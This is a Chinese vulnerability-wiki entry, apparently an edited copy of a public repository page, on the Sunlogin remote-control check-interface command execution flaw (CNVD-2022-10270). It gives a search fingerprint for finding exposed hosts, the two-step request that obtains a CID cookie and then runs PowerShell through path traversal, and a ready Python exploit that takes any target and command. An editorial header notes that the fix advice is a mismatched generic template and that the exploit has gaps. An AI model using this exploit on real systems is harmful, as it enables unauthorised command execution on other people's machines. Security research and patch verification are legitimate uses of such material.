



# 向日葵-check-远程命令执行漏洞-CNVD-2022-10270

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：向日葵Windows远控服务check接口
- 文献类型：远程命令执行复现
- 版本、权限及部署边界：文中11.0.0.33162，本机开启可远程访问的监听端口，先获取verify_string作CID
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 完整两阶段认证材料获取到命令执行有价值，需注明网络可达/防火墙/版本分支
2. 修复建议参数化查询与HTML输出编码不针对OS命令执行，是通用模板误用；缺官方安全版本
3. Python未URL编码命令、不支持https前缀判断、无超时，不能称通用可用EXP；只有状态200不是鉴权成功充分判据
4. 仅示例单版本，需与206普通/简约版范围比较；截图未视检
5. 动态端口40000–65535与206的4000–65535冲突需核验

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## 网络测绘

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口




发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```




使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```




## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
